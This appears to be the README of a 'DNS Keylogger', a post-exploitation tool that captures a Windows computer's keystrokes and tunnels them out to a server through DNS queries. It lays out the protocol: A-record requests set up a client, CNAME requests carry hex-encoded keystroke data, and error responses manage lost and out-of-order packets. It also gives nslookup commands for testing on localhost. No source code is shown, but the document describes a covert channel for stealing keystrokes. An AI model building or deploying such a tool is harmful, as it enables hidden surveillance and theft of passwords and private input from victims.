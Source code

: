 # DNS Keylogger
This post-exploitation keylogger will automatically report a Windows computer's keystrokes.

This takes advantage of DNS tunelling/exfiltration.

# Protocol
## A Record Request
A record requests indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## CNAME Record Request
CNAME record requests indicate actual data being sent to the server.
It is in the format of `[packet #].[id].[data].[sld].[tld].`

`id` is the id that was established on connection. Data is sent as ASCII data in hex.
## Malformed Record Requests
If the client sends an malformed record request, the server will respond with NXDOMAIN.
## Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with REFUSED.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, resend the same payload.
## Out of Order Packets
Occurs when client sends a packet with packet_id that doesn't match what is expected. The server responds with FORMERR. Clients and servers should reset their packet numbers to 0.

# Server
## Listens on UDP port 53 for DNS packets
Looks for A record and CNAME record requests. Once an A record has been received, the rest of the data from the client should be CNAME record requests.

### Sending Test Requests
You can use `nslookup` to send requests to the server:

`nslookup -query=A 1.example.com 127.0.0.1` sends a connection request to localhost.

`nslookup -query=CNAME 1.1.54686520717569636B2062726F776E20666F782E1B.example.com 127.0.0.1` to send a test message to localhost.

The `sld` can be anything if you're testing on localhost, but you need to put something there.